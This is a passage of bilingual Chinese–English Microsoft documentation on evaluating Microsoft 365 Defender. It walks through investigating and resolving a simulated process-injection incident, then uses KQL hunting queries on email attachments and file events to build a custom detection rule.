<span data-ttu-id="1e413-224">選取受到攻擊的裝置名稱，以開啟該特定裝置的實體頁面。</span><span class="sxs-lookup"><span data-stu-id="1e413-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="1e413-225">您可以在該頁面中查看觸發警示和相關事件。</span><span class="sxs-lookup"><span data-stu-id="1e413-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="1e413-226">選取時程表 **Tab** 以開啟裝置時程表，並按時間順序查看裝置上所觀察的所有事件和行為，並隨警示一起顯示。</span><span class="sxs-lookup"><span data-stu-id="1e413-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="1e413-228">展開一些更有趣的行為可提供有用的詳細資料，例如程式樹。</span><span class="sxs-lookup"><span data-stu-id="1e413-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="1e413-229">例如，向下卷卷，直到您找到觀察到 **的可疑事件可疑程式**。</span><span class="sxs-lookup"><span data-stu-id="1e413-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="1e413-230">選取powershell.exe **插入** notepad.exe事件，以在側邊窗格的事件實體圖形下方顯示此行為的完整程式樹狀結構。 </span><span class="sxs-lookup"><span data-stu-id="1e413-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="1e413-231">如有需要，請使用搜尋欄進行篩選。</span><span class="sxs-lookup"><span data-stu-id="1e413-231">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="1e413-233">檢查使用者資訊 [Microsoft Cloud App 安全性]</span><span class="sxs-lookup"><span data-stu-id="1e413-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="1e413-234">在事件頁面上，選取 **使用者分頁以顯示** 參與攻擊的使用者清單。</span><span class="sxs-lookup"><span data-stu-id="1e413-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="1e413-235">表格包含每個使用者的其他相關資訊，包括每個使用者的調查 **優先順序分數。**</span><span class="sxs-lookup"><span data-stu-id="1e413-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="1e413-236">選取使用者名稱以開啟可進行進一步調查的使用者設定檔頁面。</span><span class="sxs-lookup"><span data-stu-id="1e413-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="1e413-237">[進一步閱讀有關調查有風險的使用者。](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="1e413-237">[Read more about investigating risky users](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="1e413-239">自動化調查與補救措施</span><span class="sxs-lookup"><span data-stu-id="1e413-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="1e413-240">在我們將您進行這項模擬之前，請觀看下列影片，熟悉什麼是自動自助、在入口網站何處找到，以及它如何協助您的安全性作業：</span><span class="sxs-lookup"><span data-stu-id="1e413-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="1e413-241">流覽回 Microsoft 365 資訊安全中心入口網站中的事件。</span><span class="sxs-lookup"><span data-stu-id="1e413-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="1e413-242">在 **事件頁面中** 的Microsoft Defender顯示由 Microsoft Defender for Identity 和 Microsoft Defender for Endpoint 所觸發的自動化調查。 </span><span class="sxs-lookup"><span data-stu-id="1e413-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="1e413-243">以下螢幕擷取畫面只顯示 Defender for Endpoint 所觸發的自動化調查。</span><span class="sxs-lookup"><span data-stu-id="1e413-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="1e413-244">根據預設，端點的 Defender 會自動修復佇列中找到的完成品，需要修復。</span><span class="sxs-lookup"><span data-stu-id="1e413-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="1e413-246">選取觸發調查的警示，以開啟調查 **詳細資料** 頁面。</span><span class="sxs-lookup"><span data-stu-id="1e413-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="1e413-247">您將看見下列詳細資料：</span><span class="sxs-lookup"><span data-stu-id="1e413-247">You'll see the following details:</span></span>

- <span data-ttu-id="1e413-248">提醒 () 自動調查的警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="1e413-249">受到影響的使用者和裝置。</span><span class="sxs-lookup"><span data-stu-id="1e413-249">Impacted users and devices.</span></span> <span data-ttu-id="1e413-250">如果您在其他裝置上找到指示器，也會列出這些額外的裝置。</span><span class="sxs-lookup"><span data-stu-id="1e413-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="1e413-251">證據清單。</span><span class="sxs-lookup"><span data-stu-id="1e413-251">List of evidence.</span></span> <span data-ttu-id="1e413-252">找到並分析的實體，例如檔案、程式、服務、驅動程式和網路位址。</span><span class="sxs-lookup"><span data-stu-id="1e413-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="1e413-253">會針對警示的可能關聯性分析這些實體，並評分為惡意或惡意。</span><span class="sxs-lookup"><span data-stu-id="1e413-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="1e413-254">發現威脅。</span><span class="sxs-lookup"><span data-stu-id="1e413-254">Threats found.</span></span> <span data-ttu-id="1e413-255">在調查期間發現已知的威脅。</span><span class="sxs-lookup"><span data-stu-id="1e413-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="1e413-256">視時間不同，自動化調查可能仍在執行中。</span><span class="sxs-lookup"><span data-stu-id="1e413-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="1e413-257">請稍候幾分鐘，讓程式完成，然後再收集並分析證據並審查結果。</span><span class="sxs-lookup"><span data-stu-id="1e413-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="1e413-258">重新檢查 **調查詳細** 資料頁面以取得最新結果。</span><span class="sxs-lookup"><span data-stu-id="1e413-258">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="1e413-260">在自動化調查期間，Microsoft Defender for Endpoint notepad.exe程式，此程式是需要修復的其中一個加工品。</span><span class="sxs-lookup"><span data-stu-id="1e413-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="1e413-261">端點的 Defender 會自動停止可疑程式處理，做為自動化補救的一部分。</span><span class="sxs-lookup"><span data-stu-id="1e413-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="1e413-262">您可以在測試 <i> 裝置上 </i>notepad.exe程式清單中消失。</span><span class="sxs-lookup"><span data-stu-id="1e413-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="1e413-263">解決事件</span><span class="sxs-lookup"><span data-stu-id="1e413-263">Resolve the incident</span></span>

<span data-ttu-id="1e413-264">完成調查並確認要修復之後，請關閉事件。</span><span class="sxs-lookup"><span data-stu-id="1e413-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="1e413-265">選取 **管理事件**。</span><span class="sxs-lookup"><span data-stu-id="1e413-265">Select **Manage incident**.</span></span> <span data-ttu-id="1e413-266">設定狀態以解決 **事件，** 然後選取相關的分類。</span><span class="sxs-lookup"><span data-stu-id="1e413-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="1e413-267">當事件解決時，它會關閉 Microsoft 365 資訊安全中心及相關入口網站中所有相關聯的警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>


<span data-ttu-id="1e413-269">這適合針對事件管理和自動化調查及補救案例進行攻擊模擬。</span><span class="sxs-lookup"><span data-stu-id="1e413-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="1e413-270">下一個模擬將可採取主動威脅尋找潛在惡意檔案的威脅。</span><span class="sxs-lookup"><span data-stu-id="1e413-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="1e413-271">進位搜尋案例</span><span class="sxs-lookup"><span data-stu-id="1e413-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="1e413-272">在我們進行模擬之前，請觀看下列影片以瞭解進位的搜尋概念、查看您可以在入口網站找到它的地方，並瞭解它如何協助您的安全性作業：</span><span class="sxs-lookup"><span data-stu-id="1e413-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="1e413-273">搜尋環境需求</span><span class="sxs-lookup"><span data-stu-id="1e413-273">Hunting environment requirements</span></span>

<span data-ttu-id="1e413-274">此情境需要一個內部信箱和裝置。</span><span class="sxs-lookup"><span data-stu-id="1e413-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="1e413-275">您也需要外部電子郵件帳戶來傳送測試郵件。</span><span class="sxs-lookup"><span data-stu-id="1e413-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="1e413-276">確認您的租使用者已啟用[Microsoft 365 Defender。](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="1e413-276">Verify that your tenant has [enabled Microsoft 365 Defender](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2. <span data-ttu-id="1e413-277">找出要用來接收電子郵件的目標信箱。</span><span class="sxs-lookup"><span data-stu-id="1e413-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="1e413-278">a.</span><span class="sxs-lookup"><span data-stu-id="1e413-278">a.</span></span> <span data-ttu-id="1e413-279">Microsoft Defender for Office 365 b 必須監控此信箱。</span><span class="sxs-lookup"><span data-stu-id="1e413-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="1e413-280">需求 3 的裝置必須存取此信箱</span><span class="sxs-lookup"><span data-stu-id="1e413-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="1e413-281">設定測試裝置：a。</span><span class="sxs-lookup"><span data-stu-id="1e413-281">Configure a test device: a.</span></span> <span data-ttu-id="1e413-282">請確認您使用的是 Windows 10 版本 1903 或更新版本。</span><span class="sxs-lookup"><span data-stu-id="1e413-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="1e413-283">b.</span><span class="sxs-lookup"><span data-stu-id="1e413-283">b.</span></span> <span data-ttu-id="1e413-284">將測試裝置加入測試網域。</span><span class="sxs-lookup"><span data-stu-id="1e413-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="1e413-285">c.</span><span class="sxs-lookup"><span data-stu-id="1e413-285">c.</span></span> <span data-ttu-id="1e413-286">[開啟 Windows Defender 防毒軟體](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。</span><span class="sxs-lookup"><span data-stu-id="1e413-286">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1e413-287">如果您無法啟用 Windows Defender 防毒軟體，請參閱 [此疑難排解主題](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="1e413-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="1e413-288">d.</span><span class="sxs-lookup"><span data-stu-id="1e413-288">d.</span></span> <span data-ttu-id="1e413-289">[上線至 Microsoft Defender for Endpoint。](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="1e413-289">[Onboard to Microsoft Defender for Endpoint](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="1e413-290">執行模擬</span><span class="sxs-lookup"><span data-stu-id="1e413-290">Run the simulation</span></span>

1. <span data-ttu-id="1e413-291">從外部電子郵件帳戶，傳送電子郵件到測試環境需求一節步驟 2 所識別的信箱。</span><span class="sxs-lookup"><span data-stu-id="1e413-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="1e413-292">包含可透過任何現有電子郵件篩選策略允許的附件。</span><span class="sxs-lookup"><span data-stu-id="1e413-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="1e413-293">此檔案不需要是惡意的或可執行檔。</span><span class="sxs-lookup"><span data-stu-id="1e413-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="1e413-294">建議的檔案類型為<i>.pdf、.exe</i> (如果允許) ，或 Office 檔 ，例如 Word 檔案。 <i></i></span><span class="sxs-lookup"><span data-stu-id="1e413-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="1e413-295">從測試環境需求一節步驟 3 所定義的裝置開啟已送出的電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1e413-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="1e413-296">開啟附件或將檔案儲存到裝置。</span><span class="sxs-lookup"><span data-stu-id="1e413-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="1e413-297">搜尋</span><span class="sxs-lookup"><span data-stu-id="1e413-297">Go hunting</span></span>

1. <span data-ttu-id="1e413-298">開啟 security.microsoft.com 入口網站。</span><span class="sxs-lookup"><span data-stu-id="1e413-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="1e413-299">流覽至 **搜尋>進進搜尋**。</span><span class="sxs-lookup"><span data-stu-id="1e413-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="1e413-301">建立從收集電子郵件事件開始查詢。</span><span class="sxs-lookup"><span data-stu-id="1e413-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="1e413-302">從查詢窗格中，選取新增。</span><span class="sxs-lookup"><span data-stu-id="1e413-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="1e413-303">從架構按兩下 EmailEvents 資料表。</span><span class="sxs-lookup"><span data-stu-id="1e413-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="1e413-304">將時間範圍變更為過去 24 小時。</span><span class="sxs-lookup"><span data-stu-id="1e413-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="1e413-305">假設您執行上述模擬時所送出的電子郵件是在過去 24 小時進行，否則會變更時間範圍。</span><span class="sxs-lookup"><span data-stu-id="1e413-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="1e413-308">執行查詢。</span><span class="sxs-lookup"><span data-stu-id="1e413-308">Run the query.</span></span> <span data-ttu-id="1e413-309">視試驗環境的不同，可能有許多結果。</span><span class="sxs-lookup"><span data-stu-id="1e413-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="1e413-310">請參閱下一個步驟來篩選選項以限制資料回電。</span><span class="sxs-lookup"><span data-stu-id="1e413-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="1e413-312">進位搜尋會以表格式資料顯示查詢結果。</span><span class="sxs-lookup"><span data-stu-id="1e413-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="1e413-313">您也可以選擇以其他格式類型來查看資料，例如圖表。</span><span class="sxs-lookup"><span data-stu-id="1e413-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="1e413-314">查看結果，看看您是否可以識別您開啟的電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1e413-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="1e413-315">訊息最多可能需要 2 小時的時間，才能在進一次搜尋中顯示。</span><span class="sxs-lookup"><span data-stu-id="1e413-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="1e413-316">如果電子郵件環境很大且有許多結果，您可能會想要使用顯示篩選 **選項來尋找** 郵件。</span><span class="sxs-lookup"><span data-stu-id="1e413-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="1e413-317">在範例中，電子郵件是由 Yahoo 帳戶所寄發。</span><span class="sxs-lookup"><span data-stu-id="1e413-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="1e413-318">按一下 **+** SenderFromDomain **區yahoo.com** 旁邊圖示，然後按一下 [Apply 鍵以將選取的網域新增到查詢中。</span><span class="sxs-lookup"><span data-stu-id="1e413-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="1e413-319">在執行模擬的步驟 1 中，使用用來傳送測試訊息的網域或電子郵件帳戶來篩選結果。</span><span class="sxs-lookup"><span data-stu-id="1e413-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="1e413-320">再次執行查詢以取得較小的結果集，以確認您看到模擬中的訊息。</span><span class="sxs-lookup"><span data-stu-id="1e413-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="1e413-323">按一下查詢產生的資料列，以便檢查記錄。</span><span class="sxs-lookup"><span data-stu-id="1e413-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="1e413-325">現在，您確認可以看到電子郵件，請新增附件的篩選。</span><span class="sxs-lookup"><span data-stu-id="1e413-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="1e413-326">專注于環境中具有附件的所有電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1e413-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="1e413-327">在這個情境中，焦點會放在內送電子郵件，而不是從您環境送出的電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1e413-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="1e413-328">移除您為了尋找郵件而新增的任何篩選，並新增「|其中 **AttachmentCount > 0** 和 **EmailDirection**  ==  **"Inbound""**</span><span class="sxs-lookup"><span data-stu-id="1e413-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="1e413-329">下列查詢會顯示比初始電子郵件事件之查詢更短的結果：</span><span class="sxs-lookup"><span data-stu-id="1e413-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. <span data-ttu-id="1e413-330">接下來，請包含附件清單 (例如：檔案名、雜湊) 至結果集。</span><span class="sxs-lookup"><span data-stu-id="1e413-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="1e413-331">若要這麼做，請加入 **EmailAttachmentInfo 資料** 表。</span><span class="sxs-lookup"><span data-stu-id="1e413-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="1e413-332">連接時常用的欄位為 **NetworkMessageId** 和 **RecipientObjectId。**</span><span class="sxs-lookup"><span data-stu-id="1e413-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="1e413-333">下列查詢也包含另一行「查詢| **project-rename EmailTimestamp=Timestamp**"，可協助識別哪一個時間戳記與您將在下一個步驟中新增之檔案動作的相關電子郵件與時間戳記相關。</span><span class="sxs-lookup"><span data-stu-id="1e413-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="1e413-334">接下來，使用 **EmailAttachmentInfo** 表格中的 **SHA256** 值，尋找該雜湊 (端點上發生的 **DeviceFileEvents**) 動作。</span><span class="sxs-lookup"><span data-stu-id="1e413-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="1e413-335">此處常用的欄位為附件的 SHA256 雜湊。</span><span class="sxs-lookup"><span data-stu-id="1e413-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="1e413-336">結果表格現在包含端點 (Microsoft Defender for Endpoint) 的詳細資訊，例如裝置名稱、在此案例中執行的動作 (、篩選為只包含 FileCreaed 事件) ，以及檔案儲存的位置。</span><span class="sxs-lookup"><span data-stu-id="1e413-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="1e413-337">與程式關聯的帳戶名稱也會包含在內。</span><span class="sxs-lookup"><span data-stu-id="1e413-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="1e413-338">您現在已建立一個查詢，該查詢會識別使用者開啟或儲存附件的所有輸入電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1e413-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="1e413-339">您也可以縮小此查詢的篩選範圍，以篩選特定的寄件者網域、檔案大小、檔案類型等等。</span><span class="sxs-lookup"><span data-stu-id="1e413-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="1e413-340">函數是一種特殊的連線類型，它讓您能提取更多有關檔案的 TI 資料，例如檔案的發行者、簽號者和發行者資訊等。若要取得檔案的更多詳細資料，請使用 **FileProfile 函數 ()** 函數擴充：</span><span class="sxs-lookup"><span data-stu-id="1e413-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="1e413-341">建立偵測</span><span class="sxs-lookup"><span data-stu-id="1e413-341">Create a detection</span></span>

<span data-ttu-id="1e413-342">一旦建立查詢來識別未來要收到警示的資訊後，就可以從查詢建立自訂偵測。</span><span class="sxs-lookup"><span data-stu-id="1e413-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="1e413-343">自訂偵測會根據您的設定頻率執行查詢，而查詢結果會根據您的選擇的影響資產建立安全性警訊。</span><span class="sxs-lookup"><span data-stu-id="1e413-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="1e413-344">這些警示會與事件相關，可分類為其中一項產品所產生的任何其他安全性警示。</span><span class="sxs-lookup"><span data-stu-id="1e413-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="1e413-345">在查詢頁面上，移除執行搜尋指示步驟 7 中新增的第 7 行和 8 行，然後按一下 [建立 **偵測規則**。</span><span class="sxs-lookup"><span data-stu-id="1e413-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   

   > [!NOTE]
   > <span data-ttu-id="1e413-347">如果您按一下 [ **建立偵測規則** ，且查詢中出現語法錯誤，您的偵測規則將不會儲存。</span><span class="sxs-lookup"><span data-stu-id="1e413-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="1e413-348">請檢查您的查詢，以確保沒有錯誤。</span><span class="sxs-lookup"><span data-stu-id="1e413-348">Double-check your query to ensure there's no errors.</span></span>

2. <span data-ttu-id="1e413-349">填寫所需欄位的資訊，以便讓安全小組瞭解警示、產生的原因，以及您預期他們採取的動作。</span><span class="sxs-lookup"><span data-stu-id="1e413-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   

   <span data-ttu-id="1e413-351">請確定您明確填寫欄位，協助下一個使用者做出有關此偵測規則通知的明智的決策</span><span class="sxs-lookup"><span data-stu-id="1e413-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="1e413-352">選取此警示中會影響哪些實體。</span><span class="sxs-lookup"><span data-stu-id="1e413-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="1e413-353">在此案例中，請選取 **裝置和\*\*\*\*信箱**。</span><span class="sxs-lookup"><span data-stu-id="1e413-353">In this case, select **Device** and **Mailbox**.</span></span>

   

4. <span data-ttu-id="1e413-355">決定觸發警示時應該採取的行動。</span><span class="sxs-lookup"><span data-stu-id="1e413-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="1e413-356">在這種情況下，請執行防毒軟體掃描，但可能會採取其他動作。</span><span class="sxs-lookup"><span data-stu-id="1e413-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   

5. <span data-ttu-id="1e413-358">選取警示規則的範圍。</span><span class="sxs-lookup"><span data-stu-id="1e413-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="1e413-359">由於此查詢涉及裝置，因此根據 Microsoft Defender for Endpoint 內容，裝置群組在此自訂偵測中是相關的。</span><span class="sxs-lookup"><span data-stu-id="1e413-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="1e413-360">建立不包含裝置作為影響實體的自訂偵測時，範圍不適用。</span><span class="sxs-lookup"><span data-stu-id="1e413-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   

   <span data-ttu-id="1e413-362">針對此試驗，您可能會想要將這項規則限制為您生產環境中測試裝置子集。</span><span class="sxs-lookup"><span data-stu-id="1e413-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="1e413-363">選取 [建立]。</span><span class="sxs-lookup"><span data-stu-id="1e413-363">Select **Create**.</span></span> <span data-ttu-id="1e413-364">然後，從 **流覽面板中選取** 自訂偵測規則。</span><span class="sxs-lookup"><span data-stu-id="1e413-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   

   

   <span data-ttu-id="1e413-367">在此頁面上，您可以選取偵測規則，以開啟詳細資料頁面。</span><span class="sxs-lookup"><span data-stu-id="1e413-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="1e413-369">其他進一步搜尋的練習</span><span class="sxs-lookup"><span data-stu-id="1e413-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="1e413-370">若要深入瞭解進一步搜尋，下列網路將會流覽 Microsoft 365 Defender 內進一步搜尋的功能，以建立交叉資料欄查詢、樞紐分析至實體，以及建立自訂偵測和補救動作。</span><span class="sxs-lookup"><span data-stu-id="1e413-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="1e413-371">使用您自己的 GitHub 帳戶做好準備，以在試驗測試實驗室環境中執行搜尋查詢。</span><span class="sxs-lookup"><span data-stu-id="1e413-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

